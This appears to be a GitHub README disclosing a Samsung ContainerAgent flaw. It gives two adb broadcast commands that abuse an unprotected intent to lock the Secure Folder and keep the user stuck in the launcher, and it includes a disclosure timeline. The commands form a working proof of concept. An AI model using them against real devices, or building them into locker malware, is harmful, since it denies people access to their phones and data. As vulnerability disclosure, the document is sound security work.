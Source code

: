 # Samsung ContainerAgent Vulnerability
Due to an unprotected intent in the ContainerAgent app, a Samsung smartphone can become temporarily bricked. This vulnerability can be used to create a Locker.

A write up has been published on Medium: https://medium.com/@fs0c131y/how-to-brick-all-samsung-phones-6aae4389bea?source=friends_link&sk=d044380dfde02c588fdab07d67720f2b

# How To
**Lock Secure folder**
```bash
adb shell am broadcast -a com.samsung.android.knox.containeragent.LocalCommandReceiver.ACTION_COMMAND --ei "com.samsung.android.knox.containeragent.LocalCommandReceiver.EXTRA_COMMAND_ID" 1001 --ei "android.intent.extra.user_handle" 150
```

**Go back to launcher**
```bash
adb shell am broadcast -a com.samsung.android.knox.containeragent.LocalCommandReceiver.ACTION_COMMAND --ei "com.samsung.android.knox.containeragent.LocalCommandReceiver.EXTRA_COMMAND_ID" 1002 --ei "android.intent.extra.user_handle" 0
```

# Result
The user will be stuck in the launcher and his Secure Folder will be locked all the time.

# Disclosure
- 04/02/19: Initial finding by [@fs0c131y](https://twitter.com/fs0c131y)
- 11/03/19: Responsible disclosure to the Samsung Security Team
- 18/03/19: The Samsung Security Team considered this issue as no/little security impact

# Contact
Follow me on [Twitter](https://twitter.com/fs0c131y)! You can also find a small part of my work at [https://fs0c131y.com](https://fs0c131y.com)

# Credits
The investigation and the POC has been made with ❤ by [@fs0c131y](https://twitter.com/fs0c131y)
